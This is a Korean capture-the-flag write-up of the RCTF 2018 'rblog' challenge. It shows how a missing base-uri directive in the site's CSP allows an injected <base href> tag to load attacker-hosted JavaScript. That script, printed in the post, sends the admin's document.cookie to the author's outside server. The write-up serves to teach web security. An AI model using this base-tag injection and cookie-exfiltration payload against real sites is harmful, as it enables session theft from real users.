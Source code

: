 ```yaml
---
layout: post
title: ! "[RCTF2018] rblog Write up"
excerpt_separator: <!--more-->
comments : true
tags:
  - mingzzi
  - Write-up
  - CTF
  - RCTF2018
---
```


`rblog`는 `RCTF 2018`에 출제되었던 XSS 문제인데, 대회 기간에는 풀이하지 못했다가 Write-up이 올라온 후 풀어보게 되었다.  

문제 정보는 아래와 같다.  

<!--more-->

```
get `document.cookie`
http://rblog.2018.teamrois.cn
```

### 1. 문제 분석

문제 링크에 접속하면 아래와 같은 페이지를 확인할 수 있다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_01.PNG)  

제목과 내용을 적고, 스타일을 적용하거나 이미지를 업로드할 수 있는 기능이 있다.  

또한 `최신 버전의 Chrome을 사용중인 admin`에게 신고할 수도 있다.  

admin에게 신고할 때에는 특정 값을 입력해야 하는데, 이는 내가 업로드 한 블로그의 주소라는 것을 알 수 있다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_02.PNG)  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_03.PNG)  

### 2. 취약점 찾기

문제의 설명에서 `document.cookie`를 얻으라고 했으므로 `XSS` 문제인 것은 알 수 있다.  

때문에 어떤 부분에서 `XSS`가 가능한지 알기 위해 `title`, `content`, `style`을 적용하는 부분에 아래와 같이 script 코드를 삽입 해 보았다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_04.PNG)  

그 결과, `title` 부분에서 `script`가 정상적으로 삽입되는 것을 확인할 수 있었지만, 실행되지는 않았다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_05.PNG)  

이 문제에도 역시나 `CSP`가 걸려있었다.  

`XSS` 공격은 해야하는데, `CSP`가 걸려 있어서 어떻게 풀이해야 하나 싶었는데, 다른 사람들의 write-up을 보니 `Google`에서 만든 [CSP Evaluator](https://csp-evaluator.withgoogle.com/)를 통해 특정 사이트에 적용 된 CSP 정보를 확인할 수 있었다.  

문제의 URL을 넣고 확인 해 보니 `base-uri`에 대한 보호가 적용되어 있지 않았다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_06.PNG)  

즉, `<base>`라는 태그를 사용하여 소스코드 상에서 사용된 상대 경로의 기준이 될 경로를 지정할 수 있다.  

만약 소스코드에서 css 파일이나 js 파일 등을 참조할 때 `./css/style.css`라는 상대 경로가 있을 경우, `<base>` 태그를 이용해 따로 경로를 설정해 주지 않는 한 `현재 페이지의 경로를 기준`으로 `style.css`를 찾아간다.  

그런데 만약 `<base>` 태그를 이용 해 `<base href="http://www.test.com/">`와 같이 기준 경로를 바꾸어 줄 경우, `설정해 준 경로를 기준`으로 파일을 찾아가게 된다.  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준다면, 문제의 소스코드 내에서 사용하는 `js`나 `css`를 내가 원하는 파일로 바꾸어 실행시킬 수 있다.  

우리는 `document.cookie`를 얻어야 하므로, `js` 파일을 사용하는 부분을 찾아보았다.  

다시 소스코드를 살펴보니 내가 업로드 한 블로그 글의 하단에서 아래와 같이 `js` 파일을 실행시키는 것을 확인할 수 있었다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_07.PNG)  

따라서 `<base>` 태그를 이용 해 기준 경로를 바꾸어 준 후, 바꾼 경로에 `/assets/js/jquery.min.js` 파일을 만든다면, 내가 원하는 코드를 실행시킬 수 있게 된다.  

### 3. 문제 풀이

나는 내 서버와 도메인을 갖고 있기 때문에 내 서버를 사용했다.  

내 서버에 `/assets/js/` 디렉토리 아래에 `jquery.min.js` 파일을 생성한 후, 아래와 같이 소스코드를 구현하였다.  

```js
location.href = "http://ccoma.me/?" + document.cookie;
```

이 후 `title`에 `<base href="http://ccoma.me/"/>` 를 넣어 글을 올린다면 기준 경로가 내 도메인이 되어 `<script nonce="af8d8b049007ffdddf9d4104295d126e" src="/assets/js/jquery.min.js"></script>`는 실제로는 `http://ccoma.me/assets/js/jquery.min/js`를 실행하게 된다.  

이 때, 해당 경로에는 `location.href = "http://ccoma.me/?" + document.cookie;`가 있으므로 `document.cookie`의 값을 인자로 해 해당 도메인에 접근하게 될 것이다.  

글을 업로드 한 후에 해당 글의 경로를 `admin`에게 신고하면 `admin`이 해당 글에 접근할 것이며, 결론적으로 `admin`의 `cookie`를 인자로 해당 도메인에 다시 접근하게 된다.  

먼저 아래와 같이 글을 올려 보았다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_08.PNG)  

`jquery.min.js`에는 `location.href`가 구현되어 있기 때문에 내 서버로 리다이렉트 될 것이다.  

때문에 `burp suite`를 이용 해 `Response`를 잡아 블로그 글의 주소를 캡쳐 했다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_09.PNG)  

이 후 해당 글의 링크를 `admin`에게 보내주었다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_10.PNG)  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_11.PNG)  

그러면 `admin`이 내 서버로 접근하게 되는데, 이 때 GET 방식으로 cookie가 넘어오게 되므로 이를 확인하기 위해 `access.log`를 확인 해 보았다.  

```
tail -f /var/log/apache2/access.log
```

전송 후에 짧게는 몇 초, 길게는 2분 정도를 기다리면 아래와 같이 flag가 함께 전송된 것을 확인할 수 있다.  

![]({{ site.baseurl }}/images/mingzzi/rblog-writeup/rblog_12.PNG)  

```
FLAG : RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012}
```
